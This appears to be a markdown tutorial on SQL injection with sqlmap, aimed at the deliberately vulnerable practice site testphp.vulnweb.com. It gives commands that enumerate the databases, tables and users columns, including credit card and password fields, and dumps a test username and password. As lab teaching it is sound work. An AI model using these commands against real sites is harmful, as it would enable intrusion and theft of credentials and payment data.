

# Ethical Hacking - SQL Injection Attack

### Senerio

### Structure

### Database Attack Introduction

### Website Database Hacking Using sqlmap Tool

- `install sqlmap in kali`
- `vulnweb.com`
- `Acuart`
- `copy link` `http://testphp.vulnweb.com/`
- open new tags.

  - `site:http://testphp.vulnweb.com/ php?id=`

### open kali

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs`

### found 2 dbs

- acuart
- infromation_schema

### find table

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables`

### Found Table

**Database:** acuart
| 8 Tables |
| ------------- |
| artists |
| categ |
| featured |
| guestbook |
| pictures |
| products |
| users |

### Find number of columns

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns`

### Found Column

- Database: acuart
- Table: users
- [8 columns]
  | column | Type |
  | ----- | ---- |
  | name | varchar(100) |
  | address | mediumtext |
  | cart | varchar(100) |
  | cc | varchar(100) |
  | email | varchar(100) |
  | pass | varchar(100) |
  | phone | varchar(100) |
  | uname | varchar(100) |

### Find Username

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump`

- Database: acuart
- Table: users
- [1 entry]
  | uname |
  | ----- |
  | test |

**Find cloumns**

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump`

- Database: acuart
- Table: users
- [1 entry]
  | pass |
  | ----- |
  | test |
